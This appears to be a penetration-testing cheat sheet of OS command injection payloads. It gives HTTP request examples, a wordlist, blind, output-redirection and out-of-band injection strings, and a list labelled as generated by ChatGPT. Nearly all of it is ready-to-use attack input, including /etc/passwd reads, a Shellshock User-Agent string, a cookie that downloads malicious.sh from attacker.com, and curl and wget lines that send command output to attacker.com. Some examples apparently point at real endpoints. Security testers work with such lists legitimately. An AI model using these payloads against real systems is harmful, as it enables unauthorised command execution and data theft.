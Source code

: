 

# OS Command Injection Payloads

  - [Description](#description)
  - [Wordlist](#wordlist)
  - [Simple Case](#simple-case)
  - [Blind Injection](#blind-injection)
  - [Blind Injection with Output Redirection](#blind-injection-with-output-redirection)
  - [Out of Band](#out-of-band)
  - [ChatGPT Payload](#chatgpt-payload)
___
# Description

To exploit an OS command injection vulnerability, an attacker must find a place where the application accepts user input and then inject a malicious payload that executes arbitrary commands on the server. This usually involves crafting an HTTP request where the payload is placed in an input field that the server processes with a system command.

Here are some examples of where to put a command injection payload in HTTP requests:

### 1. In Query Parameters

When an application takes a query parameter as input and uses it in a command execution on the server, you can place the payload in the parameter value.

**Example HTTP Request:**
```
GET /ping?host=127.0.0.1;cat%20/etc/passwd HTTP/1.1
Host: vulnerable-website.com
```
In this case, the server might execute a command like `ping 127.0.0.1` based on the input. The payload (`;cat /etc/passwd`) tries to execute an additional command to read the contents of the `/etc/passwd` file.

### 2. In POST Data

If a web application processes POST data to execute commands, you can inject the payload directly into the form data.

**Example HTTP Request:**
```
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin&command=whoami;id
```
In this example, the `command` parameter contains a payload (`whoami;id`) that tries to execute `whoami` followed by `id`. If the server executes this input as part of a command, the payload can run.

### 3. In HTTP Headers

Attackers may inject command injection payloads into HTTP headers if the application processes header values and uses them in commands.

**Example HTTP Request:**
```
GET / HTTP/1.1
Host: vulnerable-website.com
User-Agent: curl; ls -la
```
If the server uses the `User-Agent` header in a command execution, the payload (`; ls -la`) may run on the server.

### 4. In URL Path

Command injection payloads can also be placed in the URL path if the web application uses parts of the path to execute commands.

**Example HTTP Request:**
```
GET /execute/ls%20-la;cat%20/etc/passwd HTTP/1.1
Host: vulnerable-website.com
```
Here, the URL path `/execute/ls -la;cat /etc/passwd` is designed to manipulate the command execution on the server.

### 5. In Cookie Header

If the web application reads cookies and uses them in a system command, the payload can be placed inside the cookie value.

**Example HTTP Request:**
```
GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=abc123; curl -o /tmp/malicious.sh http://attacker.com/malicious.sh
```
The payload attempts to download a malicious script if the server processes the cookie value in a system command.

### Crafting the Payload

Common payloads for command injection include using separators like `;`, `&&`, `|`, or `||` to chain commands. Examples:
- `; cat /etc/passwd`
- `&& whoami`
- `| ls -la`
- `|| echo vulnerable`

By injecting these payloads in the right places, attackers can exploit command injection vulnerabilities to execute arbitrary commands on the server. Proper input validation, sanitization, and secure coding practices are crucial to mitigate these risks.

## Wordlist
```sh
;whoami;
;sleep+10;
nslookup+burpcollaborator.net
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1
```
## Simple Case
```sh
& echo test &

& whoami #

;ls

;ls;

User-Agent: () { :; }; echo ; /bin/bash -c "cat /etc/passwd" >> In User-Agent Header.
```
## Blind injection
Example:  name=test&email=```;sleep 5;```&message=test or, name=test&email=```||sleep 5||```&message=test
```sh
; sleep 10 ||

& sleep 10 #

; sleep 10 ;

asd||sleep 5|| >> Middle of two parameter.

||ping+-c+10+127.0.0.1||

& ping -c 10 127.0.0.1

asd||sleep 5 # >> Last parameter or to comment out extra parameter
```
## Blind injection with output redirection
If you identified a blind Command Injection try to find a writable folder to read your output. Suppose, if a application serves it's images for the product catalog from location like ```/image?filename=22.jpg```, you can redirect the output from the injected command to a file in this ```images``` folder, and then use this URL to retrieve the contents of the file.
```sql
& whoami > /var/www/images/output.txt #
; whoami > /var/www/images/output.txt ;
```
Now, you can read content like this ```/image?filename=output.txt```

## Out of band
```sh
||nslookup x.vyx05udastzq6llyo3y9vqiswj2aq3vrk.oastify.com||

& nslookup x.burpcollaborator.net #

& nslookup `whoami`.xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

& nslookup $(whoami).xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1

Example-01: /api/v1/pdf/generate_zip?seed_id=521b62f5b7132de722027388|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1

Example-02: https://api.seedr.ru/uploads/521b62f5b7132de722027388|nslookup -q=cname 0vwm3493ytajvrc4a2g7ptfmgdm7a04o0crzhn6.burpcollaborator.net.&.zip

Example-03: email=a@a.com|nslookup -q=cname 6dkbk5sl74e1lw093edka1x3buhl5g34s.oastify.com.&.zip
```
## ChatGpt Generated Payload
```
; ls
; dir
| ls
| dir
&& ls
&& dir
|| ls
|| dir
`ls`
`dir`
$(ls)
$(dir)
; id
; whoami
| id
| whoami
&& id
&& whoami
|| id
|| whoami
`id`
`whoami`
$(id)
$(whoami)
; id > /tmp/output.txt
; whoami > /tmp/output.txt
| id > /tmp/output.txt
| whoami > /tmp/output.txt
&& id > /tmp/output.txt
&& whoami > /tmp/output.txt
|| id > /tmp/output.txt
|| whoami > /tmp/output.txt
`id` > /tmp/output.txt
`whoami` > /tmp/output.txt
$(id) > /tmp/output.txt
$(whoami) > /tmp/output.txt
; curl http://attacker.com?data=$(id)
; wget http://attacker.com?data=$(id)
| curl http://attacker.com?data=$(id)
| wget http://attacker.com?data=$(id)
&& curl http://attacker.com?data=$(id)
&& wget http://attacker.com?data=$(id)
|| curl http://attacker.com?data=$(id)
|| wget http://attacker.com?data=$(id)
`curl http://attacker.com?data=$(id)`
`wget http://attacker.com?data=$(id)`
$(curl http://attacker.com?data=$(id))
$(wget http://attacker.com?data=$(id))
```

